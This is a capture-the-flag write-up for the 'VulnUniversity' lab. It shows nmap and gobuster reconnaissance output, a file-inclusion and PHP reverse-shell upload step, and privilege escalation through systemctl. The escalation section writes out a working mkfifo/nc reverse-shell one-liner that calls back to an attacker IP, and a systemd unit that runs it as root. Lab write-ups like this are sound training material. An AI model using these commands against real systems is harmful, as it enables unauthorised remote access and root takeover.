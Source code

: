# VulnUniversity 
## Reconnaissance
###### IP address : 10.10.28.18
---

## Scanning & Enumeration
* #### nmap scan
``` 
    nmap -sC -sV 10.10.28.18
```
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-27 09:45 +01
Nmap scan report for 10.10.28.18
Host is up (0.14s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2020-03-27T04:46:02-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-27T08:46:02
|_  start_date: N/A
...

```
* ### sub directory discovery
 Locating directories using GoBuster
 ```
  # gobuster dir -u http://10.10.28.18:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 ```
 ```
 Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.28.18:3333/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/27 11:14:58 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
...
 ```

---
## Explotaiton
* #### exploiting file inclusion vulnerability
![interlude 0]( img/interlude.png "supported file extension")

---
* #### Use PHP reverse shell exploit [here](exploit/)
Listen for incomming connection on port 1337
```
nc -lvnp 1337
```
upload the reverse shell code and run the attaack
![access granted]( img/access-granted.png)
* #### Privilege Escalation
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.18.201 1234 >/tmp/f" > /tmp/shell.sh
```

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "bash /tmp/shell.sh"
[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF

```
## Maintainning Access


---
## Cleaning

---